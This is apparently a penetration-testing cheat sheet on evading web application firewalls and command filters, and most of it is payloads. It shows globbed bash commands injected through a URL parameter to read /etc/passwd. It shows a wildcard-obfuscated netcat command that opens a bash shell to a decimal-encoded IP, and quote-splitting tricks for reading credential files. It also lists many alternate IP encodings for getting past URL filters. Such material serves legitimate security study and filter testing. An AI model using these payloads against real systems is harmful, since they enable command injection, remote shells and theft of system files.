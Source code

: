 {% embed url="https://medium.com/secjuice/waf-evasion-techniques-718026d693d8" caption="Web Application Firewall \(WAF\) Evasion Techniques" %}

Bypass web filters by using bash wildcards:`/???/?s` `/?cmd=%2f???%2f??t%20%2f???%2fp??s??` will bypass...and execute every command that matches. such as `/bin/cat /etc/apt`, and `/bin/cat /etc/passwd`

netcat firewall bypass: `/???/n? -e /???/b??h 2130706433 1337` \(`/???/?c.??????????? -e /???/b??h 2130706433 1337` for nc traditional\)

```text
Standard: /bin/nc 127.0.0.1 1337
Evasion:/???/n? 2130706433 1337
Used chars: / ? n [0-9]

Standard: /bin/cat /etc/passwd
Evasion: /???/??t /???/??ss??
Used chars: / ? t s
```

### Use String Concatenation to Bypass Filters

```text
$ /bin/cat /etc/passwd
$ /bin/cat /e'tc'/pa'ss'wd
$ /bin/c'at' /e'tc'/pa'ss'wd
$ /b'i'n/c'a't /e't'c/p'a's's'w'd'
Can use \\ instead of ' as well
```

### Convert IP Address to Other Formats 

* [https://h.43z.one/ipconverter/](https://h.43z.one/ipconverter/)

It is still understood by most programs and languages when converted to other formats, such as decimal, and avoids `.` character in filtered HTTP requests: `127.0.0.1 = 2130706433`

```text
http://127.0.0.1

#0 Concatenation
http://127.0.1
http://127.1

#Decimal
http://2130706433

#Hexidecimal
http://0x7f000001

#Dotted Hexidecimal
http://0x7f.0x0.0x0.0x1
http://0x7f.0x000001
http://0x7f.0x0.00x0001

#Others (need descriptions)
http://0177.00.00.01
http://000000177.0000000.000000000.0001
http://017700000001
http://%31%32%37%2e%30%2e%30%2e%31
http://127.0x0.000000000.0x1
http://①②⑦．⓪．⓪．①
```
